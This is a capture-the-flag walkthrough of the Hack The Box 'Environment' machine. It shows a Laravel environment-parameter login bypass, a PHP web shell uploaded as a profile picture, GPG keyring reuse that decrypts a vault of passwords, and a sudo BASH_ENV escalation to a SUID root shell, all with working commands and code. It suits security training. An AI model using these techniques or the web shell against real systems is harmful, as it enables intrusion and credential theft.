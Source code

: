 💥 HTB – Environment (Hard) — Laravel ➜ Env Desync ➜ Preprod Bypass ➜ PHP Upload ➜ GPG Key ➜ Password Reuse ➜ SUID Bash Root
🧠 Initial Recon

nmap -sC -sV -Pn -p- 10.10.11.67

🔓 Open Ports

22/tcp   OpenSSH 9.2p1 Debian 2+deb12u5 (protocol 2.0)
80/tcp   nginx 1.22.1 (Laravel detected)

🔁 HTTP Redirection

http://environment.htb redirects to http://environment.htb

Added to /etc/hosts:

echo '10.10.11.67 environment.htb' | sudo tee -a /etc/hosts

🌐 Web Enumeration (Port 80)

    Laravel backend (PHP + nginx + Debian)

    Accessible routes:

        /login, /logout, /mailing, /upload, /vendor, /page, etc.

    /mailing & /upload: 405 Method Not Allowed (but accessible)

    /page parameter is reflecting input via --env param:

curl 'http://environment.htb/?--env=test'

🧠 Input is injected into the HTML title, possibly manipulating Laravel's App::environment() check.
⚙️ Environment Injection ➜ Preprod Bypass

Source code (from forced error) revealed:

if(App::environment() == "preprod") {
    $request->session()->regenerate();
    $request->session()->put('user_id', 1);
    return redirect('/management/dashboard');
}

🚨 Sent login POST request with arbitrary creds + GET param:

http://environment.htb/login?--env=preprod

✅ Result: Logged in as Hish due to environment override.
🖼️ Profile Pic Upload ➜ File Upload Exploit

Only profile picture update was allowed. Bypassed restrictions by uploading a disguised PHP file:

<?php
  if(isset($_GET['cmd'])) {
    system($_GET['cmd'] . ' 2>&1');
  }
?>

Used multipart/form-data with .php. extension.

Accessed shell at:

http://environment.htb/storage/files/shell.php?cmd=id

💥 Remote Code Execution achieved — user: www-data
🗂️ Post-Exploitation – Config Files & DB

    Found SQLite database

    Extracted bcrypt hashes from users table — couldn’t crack

    Located a GPG encrypted vault: /home/hish/backup/keyvault.gpg

🔓 GPG Key Hijack & Decryption

Exported and reused .gnupg keyring:

cp -r /home/hish/.gnupg /tmp/
export GNUPGHOME=/tmp/.gnupg
chmod 700 /tmp/.gnupg
gpg --list-secret-keys

Decrypted keyvault:

gpg --decrypt /home/hish/backup/keyvault.gpg

📦 Extracted secrets:

ENVIRONMENT.HTB → marineSPm@ster!!
PAYPAL.COM → Ihaves0meMon$yhere123
FACEBOOK.COM → summerSunnyB3ACH!!

✅ Reused creds — marineSPm@ster!! for SSH login ➜ hish
🔼 Privilege Escalation ➜ SUID Bash via BASH_ENV

Checked sudo perms:

sudo -l

✅ hish can run:

(ALL) /usr/bin/systeminfo

env_keep+="BASH_ENV" enabled ➜ used this for code injection:

Created /tmp/test.sh:

#!/bin/bash
cp /bin/bash /tmp/bash
chmod +xs /tmp/bash

Executed with:

sudo BASH_ENV=/tmp/test.sh /usr/bin/systeminfo

➡️ Spawned a SUID shell:

/tmp/bash -p

🏁 Rooted the box.
